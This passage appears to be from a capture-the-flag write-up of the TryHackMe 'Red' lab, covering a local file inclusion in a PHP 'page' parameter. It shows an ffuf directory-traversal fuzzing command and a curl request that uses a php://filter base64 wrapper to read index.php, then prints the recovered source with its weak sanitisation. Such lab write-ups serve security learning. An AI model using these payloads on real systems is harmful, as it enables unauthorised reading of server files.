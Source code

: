 # Exploit
---

## Initial Access as blue

### LFI in php web application

The `page` parameter seems suspicious : `http://10.10.185.67/index.php?page=home.html`

Tried fuzzing directory traversal with **ffuf**, nothing found

```bash
ffuf -c -w /usr/share/payloadsallthethings/Directory\ Traversal/Intruder/dotdotpwn.txt -u "http://red.thm/index.php?page=FUZZ" -r -fw 2933
```

PHP filter function works

![](/assets/obsidian/a24bf42e3d8124cc50e68a2c3c66f979.png)

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl 'http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=index.php' -s | base64 -d
<?php

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

